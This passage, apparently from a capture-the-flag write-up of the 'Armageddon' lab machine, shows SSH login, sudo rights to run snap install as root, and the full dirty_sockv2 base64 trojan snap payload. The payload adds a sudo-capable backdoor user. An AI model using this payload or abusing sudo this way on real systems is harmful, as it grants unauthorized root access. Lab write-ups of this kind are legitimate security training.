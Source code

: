 ```php

Started: Wed Jul 21 17:56:59 2021
Stopped: Wed Jul 21 17:57:08 2021
```

After logging in as brucetherealadmin via SSH we can now grab the user flag.

```php
$ ssh brucetherealadmin@10.129.48.89
The authenticity of host '10.129.48.89 (10.129.48.89)' can't be established.
ECDSA key fingerprint is SHA256:bC1R/FE5sI72ndY92lFyZQt4g1VJoSNKOeAkuuRr4Ao.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.48.89' (ECDSA) to the list of known hosts.
brucetherealadmin@10.129.48.89's password: 
Last login: Tue Mar 23 12:40:36 2021 from 10.10.14.2
[brucetherealadmin@armageddon ~]$ wc -c user.txt 
33 user.txt
```

# Root
## Snap

Checking for sudo permission we see that we can run snap install on any snap package as root.

```php
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Probably the easiest way to abuse this is by using the [dirty_sockv2](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) exploit since it works by installing a malicious snap package aswell. For this we grab the base64 snap package from the source and decode it do our snap package.

```py
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
+ 'A' * 4256 + '==')

```